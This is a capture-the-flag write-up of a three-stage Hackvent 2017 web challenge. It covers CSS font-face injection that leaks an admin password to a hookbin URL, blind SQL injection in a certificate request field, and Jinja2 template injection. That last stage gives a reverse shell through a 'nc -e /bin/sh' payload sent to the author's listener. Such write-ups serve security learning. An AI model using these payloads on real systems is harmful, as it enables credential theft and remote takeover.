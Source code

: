 # Day 24: Chatterbox

*... likes to talk*

I love to chat secure and private.

For this I mostly use http://challenges.hackvent.hacking-lab.com:1087.

It's easy to create a private chat and start chatting without a registration.

[Chatterbox](http://challenges.hackvent.hacking-lab.com:1087/)

Hint #1: the admin is a lazy clicker boy and only likes `<a href="..."></a>`  
Hint #2: As a passionate designer, the admin loves different fonts.  
Hint #3: For step 2: I'd better be my own CA.  
Hint #4: For step 2: It's all about the state  
Hint #5: For step 3: python programmers don't need {{ ninjas }}

### Solution

This challenge had three separate stages.

#### Stage 1: CSS injection

The Chatterbox was running on port [1087](http://challenges.hackvent.hacking-lab.com:1087/).

As a regular user I was able to create a private channel with my own CSS. This was very suspicious right from the beginning. Some form of CSS injection? But which and how?

The first hint indicates that it is possible to invite admin to my private channel. It didn't seem so because admin silently joined the channel but didn't respond to any post. I verified his presence by modifying CSS to send GET request to my hookbin on load.

The second hint about fonts sent me to the right direction and I found this [article](http://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) about @font-face unicode-range vulnerability.

I downloaded original chatterbox CSS and added section like this for each printable character.

```css
@font-face { /* 'a' */
    font-family: pwn;
    src: url("https://hookb.in/E5V2ANXB?char=a");
    unicode-range: U+0061;
}
``` 

It defines my own fictional `pwn` font family and uses hookbin to capture requests for individual characters.

The last step was to add this font family to HTML element `password`.

```css
#password {
    font-family: pwn;
}
```

Complete CSS code can be found [here](files/styles-pwn.css).

Then I invited admin to my channel with this CSS and checked requests captured in my hookbin.

The admin's password was:

```
Christmas2017
```

I simply used it to login and then I got redirected to the [second stage](http://challenges.hackvent.hacking-lab.com:1088?key=E7g24fPcZgL5dg78).

#### Stage 2: SQL injection

The Message Board Admin Panel was running on port [1088](http://challenges.hackvent.hacking-lab.com:1088?key=E7g24fPcZgL5dg78).

This stage contained *Tools* section with a form which generated certificate based on submitted CRS.

Hints 3 and 4 directed me to the `state` field of CSR which suffered from SQL injection. I wrote a script which used blind time-based SQLi on that field to find useful data in the underlying database. It was very time consuming part but I managed to extract link to the last stage from column `private_key` of the first row of table `hv24_2.keystorage`. It contained this value:

```
challenges.hackvent.hacking-lab.com:1089?key=W5zzcusgZty9CNgw
```

#### Stage 3: Template injection

The Easy Webshop was running on port [1089](http://challenges.hackvent.hacking-lab.com:1089?key=W5zzcusgZty9CNgw).

The last hint indicated it has something to do with SSTi vulnerability. I quickly realized it's referencing to [Jinja2](http://jinja.pocoo.org/docs/2.10/) templating engine for Python.

I found this useful [article](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which showed me how to exploit that vulnerability. I found that URL path is vulnerable but it took me some time to put all the necessary things together and make it work.

I started local netcat opened for incoming connections: 

```bash
ncat -p 44444 -k -v -l
```

Then I hit the following URL to get the reverse connection with shell to my local netcat.

```
http://challenges.hackvent.hacking-lab.com:1089/product%7b%7b%20''.__class__.__mro__[1].__subclasses__()[37](['nc -e /bin/sh 94.112.XXX.XXX 44444'],shell=True).communicate()%20%7d%7d?key=W5zzcusgZty9CNgw
```

The last step was to use the remote shell through the local netcat instance.

```bash
$ cat /home/flag
HV17-7h1s-1sju-t4ra-nd0m-flag
```

The result flag:

```
HV17-7h1s-1sju-t4ra-nd0m-flag
```
